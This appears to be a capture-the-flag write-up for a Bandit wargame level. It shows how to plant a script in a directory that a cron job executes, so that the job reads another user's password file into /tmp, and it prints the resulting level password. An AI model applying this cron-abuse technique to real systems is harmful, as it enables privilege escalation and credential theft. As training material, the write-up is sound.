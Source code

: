 
---
### 🧩 Challenge Description

> A **cronjob** is running every minute on the server as user `bandit23`.  
> It executes a script that **looks in a specific directory** for new files, executes them, and deletes them afterward.

> Your task is to **place a script** in that directory which **outputs the password** for Bandit23 into a file you can read.

---

### 🧪 Solution Strategy

1. **View the cron job:**
    
    ```bash
    cat /etc/cron.d/cronjob_bandit23
    ```
    
    Output:
    
    ```
    * * * * * bandit23 /usr/bin/cronjob_bandit23.sh
    ```
    
2. **Read the cronjob script:**
    
    ```bash
    cat /usr/bin/cronjob_bandit23.sh
    ```
    
    Output:
    
    ```bash
    #!/bin/bash
    for i in /var/spool/bandit22/*; do
        bash "$i" 2>/dev/null
        rm -f "$i"
    done
    ```
    
3. **Create a script inside `/var/spool/bandit22/`:**
    
    ```bash
    echo 'cat /etc/bandit_pass/bandit23 > /tmp/shaunpass' > /var/spool/bandit22/my_script.sh
    chmod +x /var/spool/bandit22/my_script.sh
    ```
    
4. **Wait 1 minute**, then read the output:
    
    ```bash
    cat /tmp/shaunpass
    ```
    

---

### ✅ Commands Used

```bash
echo 'cat /etc/bandit_pass/bandit23 > /tmp/shaunpass' > /var/spool/bandit22/my_script.sh
chmod +x /var/spool/bandit22/my_script.sh
cat /tmp/shaunpass
```

---

### 🔑 Password for Bandit23

```
jbYICExggBDSA5XESyphPTQ9L7ZgWn1i
```

---
